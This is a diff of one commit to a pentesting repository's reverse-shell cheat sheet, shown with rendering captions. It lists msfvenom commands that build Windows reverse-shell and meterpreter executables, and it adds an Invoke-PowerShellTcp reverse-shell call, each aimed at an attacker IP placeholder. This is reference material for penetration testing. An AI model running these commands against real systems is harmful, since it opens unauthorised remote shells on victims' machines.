

Before and after one commit to HackingNaTuga/Zero2PwnTest, a Markdown page: Shells & Payloads/web_reverse_cheat_sheet.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

`````diff
--- a/Shells & Payloads/web_reverse_cheat_sheet.md
+++ b/Shells & Payloads/web_reverse_cheat_sheet.md
@@ -33,6 +33,9 @@ $sslProtocols = [System.Security.Authentication.SslProtocols]::Tls12; $TCPClient
 > powershell -e base64_payload
 > msfvenom -p windows/shell_reverse_tcp LHOST=<IP-Attacker> LPORT=<Port> -f exe > nameoffile.exe
 > msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP-Attacker> LPORT=<Port> -f exe > nameoffile.exe
+--------------------------------------------------------------------------------------------
+> Import-Module .\Invoke-PowershellTCP.ps1
+> Invoke-PowerShellTcp -Reverse -IPAddress <Our_IP> -Port <Our_Port>
 ````
 
 **Other Languages**
`````
